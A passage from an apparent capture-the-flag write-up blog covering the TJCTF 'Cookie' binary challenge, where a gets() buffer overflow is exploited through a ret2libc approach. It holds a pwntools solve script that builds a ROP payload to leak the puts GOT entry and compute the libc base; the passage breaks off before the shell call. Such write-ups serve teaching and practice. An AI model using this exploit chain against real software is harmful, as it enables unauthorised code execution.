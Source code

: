This was overall a very interesting problem and I'm not sure why my ret2libc attack failed but I'm actually pretty happy that it did because I learned more in depth about syscalls and learned how to manipulate the RAX register.

#### Cookie
```
Written by KyleForkBomb

My friend loves cookies. In fact, she loves them so much her favorite cookie changes all the time. She said there's no reward for guessing her favorite cookie, but I still think she's hiding something.

nc p1.tjctf.org 8010
```

Decompiling in Ghidra we see a buffer overflow of a variable
```c
char local_58 [76];

puts("Which is the most tasty?");
gets(local_58);
```

There was no other obvious exploit path and NX bit was on so this seemed like a ret2libc challenge. Furthermore due to the available puts, it confirmed my suspicion that it was ret2libc. I have a previous writeup for [Chirstmas CTF here](https://blog.jimmyli.us/articles/2019-12/ChristmasCTF-BinaryExploitation) where I explain how a ret2libc attack works. Essentially we call puts@plt(puts@GOT) to leak the value in the GOT address of puts. We then use a libc database to find the libc version. Finally, we can just call system('/bin/sh') using code available in libc. The explanation is really similar to Christmas CTF so I won't explain again in depth but here is my final solve script.
```python
from pwn import *

context.terminal = ["tmux", "split", "-h"]
context.log_level = "debug"

e = ELF("cookie")
libc = ELF("libc6_2.27-3ubuntu1_amd64.so")
# might have the wrong libc from  just the puts leak, try the other libc if this one doesn't work

r = remote("p1.tjctf.org", 8010)
env = {"LD_PRELOAD": os.path.join(os.getcwd(), "libc6_2.27-3ubuntu1_amd64.so")}
#r = process("./cookie")
#gdb.attach(r)

prdi = 0x0000000000400933
got_put = e.got["puts"]
plt_put = e.plt["puts"]
main = 0x0000000000400797

r.recv()

payload = "A" * 88
payload += p64(prdi) + p64(got_put) + p64(plt_put) + p64(main)

r.sendline(payload)

r.recvuntil("anymore\n")
leak = u64(r.recvline().rstrip().ljust(8, "\x00"))
log.info("leaked puts@got: " + hex(leak))

libc.address = leak - libc.sym["puts"]
log.info("libc base: " + hex(libc.address))

ret = 0x000000000040061e
```